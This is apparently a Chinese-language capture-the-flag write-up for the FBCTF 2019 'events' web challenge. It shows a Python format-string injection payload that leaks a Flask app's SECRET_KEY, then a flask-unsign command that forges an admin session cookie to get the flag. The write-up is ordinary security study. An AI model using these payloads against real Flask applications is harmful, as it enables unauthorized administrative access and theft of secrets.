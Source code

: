 # events

Solved: 23

<br>

這題其實一開始我們方向全錯

一直往cookie去踹

但後來我從`asd:asd`這個帳號發現有人成功利用 python format string 漏洞撈到東西

一開始還以為是有人故意放假的 Response 混淆大家

結果發現重新整理，address 也會跟著變，才知道是真的，差點笑死

![](https://github.com/w181496/CTF/blob/master/fbctf2019/events/asd.png)

所以後來我才開始踹 format string

然後發現漏洞在: `event_name=a&event_address=a&event_important=__dict__`

=> `{'_sa_instance_state': <sqlalchemy.orm.state.InstanceState object at 0x7fb2c5ba2588>, 'fmt': '{0.__dict__}', 'show': '__dict__', 'name': 'a', 'owner_id': 67, 'address': 'a', 'id': 5335}`

`event_important` 參數可以 injection

而 config 在: `event_name=a&event_address=a&event_important=__class__.__init__.__globals__[app].config`

=>

```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'events_sesh_cookie', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///my.db', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

其中 `SECRET_KEY`: `fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y`

用這把 key 去簽 cookie 就行了

簽 key 可以用 flask-unsign 這個 package 去簽 (thanks my teammate @bookgin)

但有點難裝，我是直接用 google colab 去跑XD

![](https://github.com/w181496/CTF/blob/master/fbctf2019/events/colab.png)

`!flask-unsign --secret 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y' --sign --cookie "admin"`

=> `ImFkbWluIg.XPSrLA.NdkV5Vsk-a5gDFlll1JcU2SumDI`

把這個塞進 `user` cookie 裡就能拿到 flag


![](https://github.com/w181496/CTF/blob/master/fbctf2019/events/admin.png)


`fb{e@t_aLL_th0s3_c0oKie5}`
